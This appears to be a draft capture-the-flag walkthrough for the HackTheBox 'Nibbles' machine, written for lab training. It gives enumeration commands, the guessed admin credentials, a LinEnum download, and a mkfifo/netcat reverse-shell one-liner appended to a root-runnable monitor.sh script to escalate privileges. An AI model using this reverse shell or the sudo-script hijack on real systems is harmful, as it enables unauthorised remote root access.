+++
tags = ["HackTheBox", "Linux", "Web Application", "RCE"]
title = "Nibbles - HTB"
weight = 10
draft = true
images = [ "/walkthroughs/Nibbles/logo.png" ]
description = "Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most."
+++



Date written: April 2024     
Date published: 

## Enumeration

As always you will want to connect to your HTB VPN. 




```bash
nc -nv  10.129.125.8 22
nc -nv  10.129.125.8 80
nmap -sV --script=http-enum 10.129.125.8
```






```bash
gobuster dir -u http://10.129.125.8/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt
```


```bash
curl http://10.129.125.8/nibbleblog/README
```





username: admin
password: nibbles







Navigate to the ```/home/nibbler/user.txt``` file.

Unzip personal.zip cat monitor.sh

https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh


Nav to your IP not 0.0.0.0

chmod  +x LinEnum.sh
./LinEnum.sh



The user ```nibbler``` can run the file /home/nibbler/personal/stuff/monitor.sh with root privileges.


Write shell to monitor.sh file.

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.57 8443 >/tmp/f' | tee -a monitor.sh
```


Nav to /root/root.txt